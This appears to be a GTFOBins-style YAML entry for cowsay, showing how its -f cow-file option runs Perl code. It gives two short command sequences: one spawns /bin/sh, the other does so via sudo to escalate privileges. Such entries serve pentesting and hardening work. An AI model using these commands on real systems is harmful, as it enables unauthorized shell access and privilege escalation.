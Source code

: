 ```yaml
---
description: It allows to execute [`perl`](../perl/index.html) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowsay -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowsay -f $TF x
---
```

